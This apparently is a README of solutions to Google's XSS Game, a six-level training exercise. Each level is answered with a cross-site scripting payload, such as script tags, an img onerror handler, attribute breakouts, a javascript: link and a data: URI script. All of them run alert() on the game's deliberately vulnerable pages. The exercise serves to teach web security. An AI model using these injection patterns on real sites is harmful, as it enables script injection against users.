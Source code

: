 # XSS Game Google
Solution to the six XSS issues proposed by Google

## [1/6]  Level 1: Hello, world of XSS
_Solution_: put `<script>alert('xss');</script>` into form field

## [2/6]  Level 2: Persistence is key
_Solution_: share status `<img src="#" onerror="javascript:alert(1)"/>`

## [3/6]  Level 3: That sinking feeling...
_Solution_: add to url the code: `#1' onerror='alert("xss")'`

## [4/6]  Level 4: Context matters
_Solution_: put this url: `http://xss-game.appspot.com/level4/frame?timer=3')%3Balert('xss`

## [5/6]  Level 5: Breaking protocol
_Solution_: change the href link with: `javascript:alert('xss');` 

## [6/6]  Level 6: Follow the rabbit
_Solution_: add `data://text/javascript.alert('xss');` instead `/static/gadget.js`